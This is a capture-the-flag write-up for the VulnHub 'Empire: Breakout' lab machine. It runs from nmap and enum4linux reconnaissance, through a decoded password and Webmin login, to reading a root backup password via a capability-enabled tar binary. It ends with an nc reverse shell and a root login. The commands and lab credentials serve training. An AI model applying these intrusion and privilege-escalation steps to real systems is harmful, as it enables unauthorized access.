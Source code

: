 [vulnhub - easy] empire: breakout
---------------------------------

First I scan virtualbox's host-only network to see what IP has been assigned to the machine:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ nmap -sn 192.168.56.0/24  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 22:23 -03
Nmap scan report for 192.168.56.1
Host is up (0.00016s latency).
Nmap scan report for 192.168.56.119
Host is up (0.00033s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 4.90 seconds
```

Then I proceed to scan all ports to see which ones are open:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ nmap -p- -T4 -oN nmap_info_allports 192.168.56.119
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 23:18 -03
Nmap scan report for 192.168.56.119
Host is up (0.00028s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
10000/tcp open  snet-sensor-mgmt
20000/tcp open  dnp

Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
```

Then a detailed scan on the open ports:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ nmap -sC -sV -p 80,139,445,10000,20000 -oN nmap_info_detailed 192.168.56.119
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 23:18 -03
Nmap scan report for 192.168.56.119
Host is up (0.00052s latency).

PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows

Host script results:
|_clock-skew: -3m18s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-31T02:15:55
|_  start_date: N/A
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.86 seconds
```

Since samba is being served, I can use enum4linux to enumerate this machine, so I run:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ enum4linux 192.168.56.119
[...SHORTENED INFO]

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)      
[...SHORTENED INFO]
```

Three web pages being served, two of those being MiniServ (ports 10000 and 20000), and in port 80 the following:

![empire breakout 1](./images/empire-breakout-1.png)

When checking this page's source served in port 80, I find this information commented out:

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.


-->
```

That's an encoded message in the brainfuck language that (after being decoded) reads :

```
.2uqPEfj3D<P'a-3
```

So I log into the admin page in port 20000 with Username 'cyber' and the password uncovered previously, get redirected to https://192.168.56.119:20000/mailbox/index.cgi?id=INBOX&xnavigation=1 that looks like:

![empire breakout 2](./images/empire-breakout-2.png)

This Webmin page has a terminal feature that allows for the authenticated user to use the terminal. Wen i open the terminal, this is what i find in the user's home folder:

```
[cyber@breakout ~]$ ls -l
total 524
-rwxr-xr-x 1 root  root  531928 Oct 19  2021 tar
-rw-r--r-- 1 cyber cyber     48 Oct 19  2021 user.txt
```

The 'user.txt' has the user flag and reads:

```
[cyber@breakout ~]$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

This 'tar' file has something to it that I can't point out just yet, comparing it to the tar binary it seems there's nothing different:

```
[cyber@breakout ~]$ ls -l tar
-rwxr-xr-x 1 root root 531928 Oct 19  2021 tar
[cyber@breakout ~]$ ls -l /bin/tar
-rwxr-xr-x 1 root root 531928 Feb 17  2021 /bin/tar
[cyber@breakout ~]$ diff tar /bin/tar

[cyber@breakout ~]$
```

But why create an equal copy of the same file in the user's home directory? So I decide to check the capabilities to see what I can get:

```
[cyber@breakout ~]$ getcap tar
tar cap_dac_read_search=ep
```

Which means, as stated in man7.org:

```
CAP_DAC_READ_SEARCH
              * Bypass file read permission checks and directory read
                and execute permission checks;
              * invoke open_by_handle_at(2);
              * use the linkat(2) AT_EMPTY_PATH flag to create a link to
                a file referred to by a file descriptor.
```

The 'ep' means effective permitted. That means I can read whichever file I choose to do so.

I could try to crack the shadow file, but seeing how the previous password was not crackable via bruteforce because it isn't in a password list, I try to find backup files inside the machine first.

After looking a while, I find the following in the /var/backups directory:

```
[cyber@breakout backups]$ ls -la
total 28
drwxr-xr-x  2 root root  4096 Oct 30 22:14 .
drwxr-xr-x 14 root root  4096 Oct 19  2021 ..
-rw-r--r--  1 root root 12732 Oct 19  2021 apt.extended_states.0
-rw-------  1 root root    17 Oct 20  2021 .old_pass.bak
```

So I go back to the home directory and:

```
[cyber@breakout ~]$ ./tar -cf pass.tar.gz /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
```

And then:

```
[cyber@breakout ~]$ tar -xf pass.tar.gz
```

It creates a /var/backups/.old_pass.bak in the home folder of user cyber, and it reads:

```
[cyber@breakout ~]$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```

I can't su to root in the web shell, so I use nc to create a reverse shell:

```
┌──(j㉿kali)-[~/Desktop]
└─$ nc -s 192.168.56.1 -lnvp 4444
listening on [192.168.56.1] 4444 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.119] 38114
python3 -c 'import pty; pty.spawn("/bin/bash");'
cyber@breakout:~$ su root
su root
Password: Ts&4&YurgtRX(=~h

root@breakout:/home/cyber# 
```

```
root@breakout:/home/cyber# cd /root
cd /root
root@breakout:~# ls
ls
rOOt.txt
root@breakout:~# cat rOOt.txt
cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```
